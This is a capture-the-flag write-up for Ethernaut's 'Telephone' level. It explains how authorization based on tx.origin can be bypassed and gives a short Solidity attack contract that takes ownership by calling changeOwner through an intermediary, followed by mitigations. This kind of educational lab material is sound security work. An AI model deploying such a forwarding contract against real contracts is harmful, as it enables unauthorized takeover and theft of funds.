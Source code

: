 ```yaml
---
title: Level 4 - Telephone
slug: level-4
published: 05-16-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut4.svg
---
```


## Objectives

1. Claim ownership of the contract.

## Vulnerabilities

### Bad access control

The function `changeOwner` is only restricted by the condition that `tx.origin` is not equal to `msg.sender`. Interacting via
a contract will satisfy this condition.

### tx.origin used for authorization

In general using `tx.origin` for authorizing critical behavior can be **exploited by malicious contract forwarding**.

## Exploit

1. Create a malicious contract that will call `changeOwner` from the `Telephone` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneHack {
    ITelephone target;

    constructor(address _targetAddress){
        target = ITelephone(_targetAddress);
    }

    function attack() external {
        target.changeOwner(msg.sender);
    }
}
```

2. Call the `attack` function transfer the ownership to yourself.

## Suggested mitigation

- Remove all traces of `tx.origin` in the authorization logic since it's bad practice.
- Adding a `onlyOwner` function modifier to `changeOwner`.

## Further reading

- SWC-115 - SWC - Authorization through tx.origin <ExternalLink href={"https://swcregistry.io/docs/SWC-115"} />
- **Ownership** by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/ownership"} />
